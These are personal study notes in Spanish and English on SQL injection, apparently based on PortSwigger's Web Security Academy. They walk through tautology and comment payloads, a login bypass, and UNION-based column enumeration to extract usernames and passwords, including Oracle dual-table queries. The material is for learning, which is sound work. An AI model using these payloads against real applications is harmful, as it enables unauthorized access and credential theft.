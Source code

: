 
# SQL Inyeccion

> SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database

## SQL injection examples

### Retrieving hidden data

Por ejemplo cuando se usa ' or 1=1-- 

> SELECT * FROM products WHERE category = 'Gifts'--' AND released = 1

En esta consulta muestras todos los datos ya que comentas lo que sigue despues de --

> The modified query will return all items where either the category is Gifts, or 1 is equal to 1. Since 1=1 is always true, the query will return all items.

### Subverting application logic


If the query returns the details of a user, then the login is successful. Otherwise, it is rejected.

Here, an attacker can log in as any user without a password simply by using the SQL comment sequence -- to remove the password check from the WHERE clause of the query. For example, submitting the username administrator'-- and a blank password results in the following query:


> SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'

Inyectando comentaria la otra parte

> SELECT * FROM users WHERE username = 'administrator'--' AND password = ''

Entonces si logramos comentar el and con '--

### Retrieving data from other database tables ( SQL injection UNION attacks )


When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database. This results in an SQL injection UNION attack

***En resumen tienes que lograr esto***

> SELECT a, b FROM table1 UNION SELECT c, d FROM table2

Desde la peticion incial

> SELECT name, description FROM products WHERE category = 'Gifts'

***Restricciones***
Para que UNION funcione tiene que pasar el mismo numero de columnas en el union y tambien deben de manejar el mismo tipo de datos

#### Paso 1 

Ver cuantas columnas tienen esa tabla  se puede hacer por dos metodos 

Metodo 1

*** CTRL + U to url enconde en Burp Suite***

>' ORDER BY 1--

>' ORDER BY 2--

>' ORDER BY 3--

Hasta n cuando de error entonces ya no es valido osea es ir probando.

Metodo 2 

> 'UNION SELECT NULL,NULL,NULL--

Ir probando de igual que order by para ver cuantas columnas esta trabajando esa query

#### Paso 2 

Verificar el tipo de datos que maneja cada columna debe de ser del mismo tipo para que no falle ( si se usa burp url encodear antes de mandar)

>'UNION SELECT NULL,NULL,NULL--
>' UNION SELECT 'abcdef',NULL,NULL--

#### Paso 3 

Sacar datos(falta investigar los datos de la base como nombre de tabla etc) 

> ' UNION SELECT username, password FROM users--

### Oracle DB

#### Tabla dual

Para la sentencia ***SELECT*** para realizar cualquier query necesitamos decirle a que tabla. Para hacer frente a este problema Oracle creo la tabla dual que es accesible para todos los usuarios.

>In Oracle, the SELECT statement must have a FROM clause. However, some queries don’t require any table for example:
>Fortunately, Oracle provides you with the DUAL table which is a special table that belongs to the schema of the user SYS but it is accessible to all users.
The DUAL table has one column named DUMMY whose data type is VARCHAR2() and contains one row with a value X


```
SELECT * FROM dual;
```

```

'union select 'a',null from dual--

'union select banner,null from v$version--

```

Por o tanto para intentar el ataque de UNION tenemos que llamar a esta tabla o usar el ORDER BY como primer paso pero despues para el segundno paso ***ver que datos tienen esas columnas (STRINGS O NUMEROS) si es que no lo podemos inferir por los datos de la pagina EN la query usamos la tabla dual***. Para sacar laa version de oracle lo intuimos al mandar la query y que no nos responda despues mandarla con la tabla dual y que si nos responda.


# Bibliografia o Recursos Consultados

> https://medium.com/@nyomanpradipta120/sql-injection-union-attack-9c10de1a5635

>https://portswigger.net/web-security/sql-injection/cheat-sheet

